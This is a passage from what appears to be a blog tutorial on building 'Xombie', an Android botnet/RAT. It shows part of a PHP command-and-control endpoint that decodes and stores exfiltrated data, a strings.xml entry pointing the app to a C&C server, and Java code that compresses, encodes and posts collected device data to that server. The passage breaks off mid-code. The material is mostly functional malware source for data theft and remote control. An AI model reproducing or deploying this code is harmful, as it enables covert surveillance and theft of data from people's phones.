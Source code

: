 
	if (empty($id) || empty($task) || empty($data)) {
		die("Parameters cannot be empty");
	}

	$data = rawurldecode($data);
	$data = base64_decode($data);
	$data = gzdecode($data);

	file_put_contents('output.txt', $data);
}

function sanitize($data)
{
	$data = trim($data);
	$data = stripslashes($data);
	$data = htmlspecialchars($data);
	return $data;
}
?>
{% endhighlight %}

To minimize manual code modifications in Android Studio, I have put the declaration of the C&C server at the `res/values/strings.xml` file:

{% highlight xml %}
<resources>
    <string name="app_name">Xombie</string>
    <string name="cc">http://192.168.0.14/cc.php</string>
    <string name="milliseconds">60000</string>
</resources>
{% endhighlight %}

### 2.3.1. Intercommunication
Initially, a device GUID is generated to uniquely identify a "zombie". This ID is later used as a query parameter in its regular GET requests to the PHP end-point which returns JSON encoded data, hence, we will use the `JsonObject()` along `HttpURLConnection` to interact with the API. The response is handled by the `onPostExecute()` function if the connection was successful and there is a network connectivity as per the `isConnected()` boolean method.

To send the payloads, I used the <a href="https://developer.android.com/training/volley" target="_blank">Volley HTTP library</a> which makes networking in Android apps easier. After an array list is returned from methods denoted in the capabilities section, the app will gzip compress payload data, as well as base64 and URL encode it to avoid making parsing a hassle:

{% highlight java %}
public void sendData(String task, String uuid, ArrayList requestBody) {
    try {
        RequestQueue requestQueue = Volley.newRequestQueue(getApplicationContext());
        String URL = getString(R.string.cc_php);
        String initial = String.valueOf(requestBody);
        final byte[] gzip = compress(initial);
        final String base64 = Base64.encodeToString(gzip, Base64.DEFAULT);
        final String data = "task= " + task + "&uuid=" + uuid + "&data=" + base64;

        StringRequest stringRequest = new StringRequest(Request.Method.POST, URL, new Response.Listener<String>() {
            @Override
            public void onResponse(String response) {
                Log.i("VOLLEY", response);
            }
        }, new Response.ErrorListener() {
            @Override
            public void onErrorResponse(VolleyError error) {
                Log.e("VOLLEY", error.toString());
            }
        }) {